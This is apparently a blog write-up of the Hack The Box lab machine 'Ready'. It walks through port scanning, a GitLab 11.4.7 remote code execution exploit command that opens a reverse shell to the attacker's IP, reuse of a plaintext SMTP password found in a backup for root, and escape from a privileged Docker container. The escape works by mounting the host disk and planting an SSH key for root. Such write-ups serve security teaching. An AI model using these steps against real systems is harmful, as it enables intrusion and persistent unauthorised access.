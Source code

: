 ```yaml
---
layout: single
title: Ready - Hack The Box
excerpt: "Ready was a pretty straighforward box to get an initial shell on: We identify that's it running a vulnerable instance of Gitlab and we use an exploit against version 11.4.7 to land a shell. Once inside, we quickly figure out we're in a container and by looking at the docker compose file we can see the container is running in privileged mode. We then mount the host filesystem within the container then we can access the flag or add our SSH keys to the host root user home directory."
date: 2021-05-15
classes: wide
header:
  teaser: /assets/images/htb-writeup-ready/ready_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - linux
  - gitlab
  - cve
  - docker
  - privileged container
---
```


![](/assets/images/htb-writeup-ready/ready_logo.png)

Ready was a pretty straighforward box to get an initial shell on: We identify that's it running a vulnerable instance of Gitlab and we use an exploit against version 11.4.7 to land a shell. Once inside, we quickly figure out we're in a container and by looking at the docker compose file we can see the container is running in privileged mode. We then mount the host filesystem within the container then we can access the flag or add our SSH keys to the host root user home directory.

## Portscan

```
sudo nmap -T4 -sC -sV -oA scan -p- 10.129.149.31
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-09 22:41 EDT
Nmap scan report for 10.129.149.31
Host is up (0.015s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.129.149.31:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
```

## Gitlab

The webserver on port 5080 runs a Gitlab instance.

![](/assets/images/htb-writeup-ready/gitlab1.png)

We have access to create a new account.

![](/assets/images/htb-writeup-ready/gitlab2.png)

Once logged in, we see in the projects list there's a single projet called *ready-channel*.

![](/assets/images/htb-writeup-ready/gitlab3.png)

To check the Gitlab version we go to the Help section and we can see it's running 11.4.7.

![](/assets/images/htb-writeup-ready/gitlab5.png)

A quick search on Exploit-DB shows there's an authenticated remote code execution vulnerability for this exact version.

![](/assets/images/htb-writeup-ready/gitlab6.png)

`python3 exploit.py -g http://10.129.149.31 -u snowscan2 -p yolo1234 -l 10.10.14.4 -P 4444`

Reverse shell connection:

![](/assets/images/htb-writeup-ready/shell.png)

![](/assets/images/htb-writeup-ready/user.png)

## Privesc

By running [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) we find a backup file with some SMTP credentials for the gitlab application. 

```
Found /opt/backup/gitlab.rb
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

That password is the same password as the root password for the container so we can privesc locally inside the container.

```
git@gitlab:/opt/backup$ su -l root
su -l root
Password: wW59U!ZKMbG9+*#h

root@gitlab:~# 
```

There's a root_pass file in the root of the filesystem but that's not useful.

```
cat /root_pass
YG65407Bjqvv9A0a8Tm_7w
```

If we look at the `/opt/backup/docker-compose.yml` configuration file, we can see it's a hint that we're running in a privileged container:

```
    volumes:
      - './srv/gitlab/config:/etc/gitlab'
      - './srv/gitlab/logs:/var/log/gitlab'
      - './srv/gitlab/data:/var/opt/gitlab'
      - './root_pass:/root_pass'
    privileged: true
    restart: unless-stopped
    #mem_limit: 1024m
```

Privileged containers can access the host's disk devices so we can just read the root flag after mounting the drive.

![](/assets/images/htb-writeup-ready/root.png)

To get a proper shell in the host OS we can drop our SSH keys in the root's .ssh directory.

```
root@gitlab:~# mount /dev/sda2 /mnt
mount /dev/sda2 /mnt
root@gitlab:~# echo 'ssh-rsa AAAAB3NzaC1y[...]+HUBS+l32faXPc= snowscan@kali' > /mnt/root/.ssh/authorized_keys

[...]

$ ssh root@10.129.150.37
The authenticity of host '10.129.150.37 (10.129.150.37)' can't be established.
ECDSA key fingerprint is SHA256:7+5qUqmyILv7QKrQXPArj5uYqJwwe7mpUbzD/7cl44E.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.150.37' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

[...]

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu Feb 11 14:28:18 2021
root@ready:~# cat root.txt
b7f98681505cd39066f67147b103c2b3
```